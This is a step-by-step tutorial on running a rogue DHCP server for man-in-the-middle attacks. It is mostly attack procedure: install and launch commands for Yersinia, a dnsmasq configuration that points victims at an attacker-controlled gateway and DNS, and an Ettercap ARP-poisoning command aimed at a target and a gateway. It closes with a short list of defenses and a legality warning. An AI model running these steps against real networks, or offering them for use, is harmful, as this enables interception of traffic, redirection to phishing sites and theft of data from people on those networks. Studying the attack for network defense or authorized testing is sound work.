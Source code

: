 How to Set Up a DHCP Rogue Server (MITM Attack)
A DHCP Rogue Server is a malicious DHCP server set up by an attacker to provide invalid or malicious network configuration to clients. When a legitimate DHCP server exists in the network, the rogue server can trick devices into using incorrect settings, such as a malicious DNS server or gateway, enabling the attacker to intercept traffic, redirect it, or perform other attacks.

Below is a step-by-step guide on setting up a DHCP Rogue Server in a man-in-the-middle (MITM) attack.

Prerequisites
Attacker's Machine: Should have a tool to set up the rogue DHCP server (such as Yersinia, dnsmasq, or Ettercap).
Target Network: The network where the legitimate DHCP server is operating.
Privilege Level: Root/Administrator access on the attacker’s machine to run the necessary tools.
Tools for Setting Up a Rogue DHCP Server
Yersinia (popular network attack tool)
dnsmasq (DHCP and DNS forwarding service)
Ettercap (MITM attack tool)
Scapy (Python tool for packet crafting)
Step 1: Setting Up the Rogue DHCP Server Using Yersinia
Yersinia is a powerful tool that can create a rogue DHCP server and perform various attacks.

Install Yersinia:
On Linux:
bash
Copy code
sudo apt-get install yersinia
Run Yersinia for DHCP Rogue Attack:
Start Yersinia in graphical mode:
bash
Copy code
sudo yersinia -G
Once the interface opens, select DHCP from the attack types.
Choose Rogue DHCP Server and launch the attack.
Yersinia will begin sending DHCP offers to devices on the network, acting as a rogue server.
Step 2: Using dnsmasq to Set Up a Rogue DHCP Server
dnsmasq is a lightweight DNS and DHCP server used to set up a rogue server.

Install dnsmasq:
On Linux:
bash
Copy code
sudo apt-get install dnsmasq
Configuration:
Create a configuration file for dnsmasq (e.g., /etc/dnsmasq.conf).

Example configuration:

bash
Copy code
# Rogue DHCP server
dhcp-range=192.168.1.50,192.168.1.100,12h
dhcp-option=3,192.168.1.1       # Gateway (can be your attacking machine)
dhcp-option=6,192.168.1.1       # DNS (can be your attacking machine)
In this configuration:

dhcp-range: The IP address pool that the rogue server will offer.
dhcp-option 3: The gateway that the devices will use (attacker's machine).
dhcp-option 6: The DNS server (attacker’s machine).
Start dnsmasq with the configuration file:

bash
Copy code
sudo dnsmasq -C /etc/dnsmasq.conf
This will start the rogue DHCP server on your machine.

Step 3: Using Ettercap for MITM Attack
Ettercap is a tool that can intercept traffic between a victim and the network. It can also be used to perform a rogue DHCP attack.

Install Ettercap:
On Linux:
bash
Copy code
sudo apt-get install ettercap-text-only
Run Ettercap:
Start Ettercap in text mode:

bash
Copy code
sudo ettercap -T -q -i eth0 -M arp:remote /target_ip/ /gateway_ip/
eth0: The network interface to use.
/target_ip/: The victim’s IP address.
/gateway_ip/: The IP address of the default gateway.
Start the MITM attack, and Ettercap will begin poisoning the ARP cache of the target device and the gateway.

Once the MITM is set up, you can proceed with the rogue DHCP setup to give out malicious IP configurations.

Step 4: Targeting Devices with the Rogue Server
Once the rogue DHCP server is active, it will start offering IP addresses and configuration information (such as DNS and gateway settings) to the devices on the network. These devices will attempt to connect to the network and use the attacker's settings for communication.

Devices on the network will receive IP addresses and settings from the rogue DHCP server.
The attacker can then manipulate these devices' network traffic, such as redirecting them to phishing sites, intercepting data, or launching further attacks.
Step 5: Testing the Rogue DHCP Server
On a target device, run the following command to check the assigned IP:

bash
Copy code
ifconfig
Confirm the IP, gateway, and DNS server IP match the attacker's configuration.
You can also use Wireshark to monitor DHCP traffic and verify that the rogue DHCP server is sending responses.

Defenses Against Rogue DHCP Servers
DHCP Snooping:

Enable DHCP snooping on switches to ensure that only trusted DHCP servers can respond.
Static IP Addressing:

Set critical systems to use static IP addresses, avoiding DHCP-based attacks.
Network Monitoring:

Use intrusion detection systems (IDS) or network monitoring tools to detect rogue DHCP servers.
Port Security:

Restrict devices that can connect to the network using MAC address filtering.
802.1X Authentication:

Require devices to authenticate before gaining access to the network, limiting rogue server access.
Important Considerations
Legality: DHCP Rogue Server attacks are illegal if performed on networks without explicit permission. Always ensure you have proper authorization before performing any testing.
Impact: This type of attack can severely disrupt a network by isolating devices and performing MITM attacks, so it is essential to use proper defenses.